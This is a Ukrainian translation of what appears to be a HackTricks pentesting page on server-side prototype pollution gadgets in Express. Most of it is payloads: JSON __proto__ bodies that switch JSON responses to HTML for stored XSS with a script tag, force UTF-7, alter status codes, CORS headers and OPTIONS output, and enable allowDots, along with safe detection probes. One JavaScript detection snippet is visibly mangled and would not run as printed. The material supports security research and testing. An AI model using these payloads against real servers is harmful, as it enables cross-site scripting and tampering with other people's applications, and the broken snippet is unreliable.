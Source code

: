 # Gadgets для забруднення прототипу Express

{{#include ../../../banners/hacktricks-training.md}}

## Обслуговування XSS-відповідей

**Для отримання додаткової інформації** [**перегляньте оригінальне дослідження**](https://portswigger.net/research/server-side-prototype-pollution)

### Змінити тип вмісту JSON на HTML

В додатку Express, що використовує **JSON content type response** і відображає JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
У цих випадках XSS зазвичай неможливий з типом вмісту JSON. Однак, з забрудненням прототипу ми можемо **заплутати Express, щоб він повертав HTML-відповідь.** Ця вразливість залежить від використання додатком **`res.send(obj)`** та використання парсера тіла з типом вмісту application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Шляхом **забруднення** властивостей **`body`** та **`_body`** можливо змусити **Express віддавати HTML тип контенту** та відображати властивість `_body`, що призводить до збереженого XSS.

### Відображення UTF7

Можливо змусити express **відображати UTF-7 контент за допомогою**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Безпечні техніки сканування

### JSON пробіли

Наступний PP додасть атрибутам всередині JSON додатковий пробіл, що не зламає функціональність:
```json
{ "__proto__": { "json spaces": " " } }
```
Тоді відображений JSON виглядатиме так:
```json
{"foo":  "bar"} -- Note the extra space
```
### Відкриті заголовки

Наступний PP гаджет змусить сервер надіслати HTTP заголовок: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Вимагає, щоб **модуль CORS був встановлений**

### **Метод OPTIONS**

З наступним payload можливо **сховати метод з відповіді OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Статус**

Можливо змінити **код статусу, що повертається**, використовуючи наступний PP payload:
```json
{ "__proto__": { "status": 510 } }
```
### Помилка

Коли ви призначаєте прототипу примітив, наприклад, рядок, це призводить до **операції без дії, оскільки прототип повинен бути об'єктом**. Якщо ви спробуєте призначити об'єкт прототипу самому `Object.prototype`, це **викине виключення**. Ми можемо використовувати ці дві поведінки, щоб **виявити, чи була успішною забрудненість прототипу**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Відображене значення

Коли додаток включає об'єкт у свою відповідь, створення атрибута з **незвичайною назвою поряд з `__proto__`** може бути корисним. Зокрема, якщо **лише незвичайний атрибут повертається** у відповіді, це може вказувати на вразливість додатка:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Більше того, у сценаріях, де використовується бібліотека, така як Lodash, встановлення властивості як через забруднення прототипу (PP), так і безпосередньо в об'єкті пропонує ще один діагностичний підхід. Якщо така властивість відсутня у відповіді, це вказує на те, що Lodash перевіряє наявність властивості в цільовому об'єкті перед злиттям:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Різне

### Дозволити крапки

В Express є опція, яка дозволяє вам **створювати об'єкти з параметрів рядка запиту**.\
Ви безумовно можете використовувати це в ланцюгу **помилок** для експлуатації **вразливості забруднення прототипу**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` створює об'єкт у Node.**

## Посилання

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
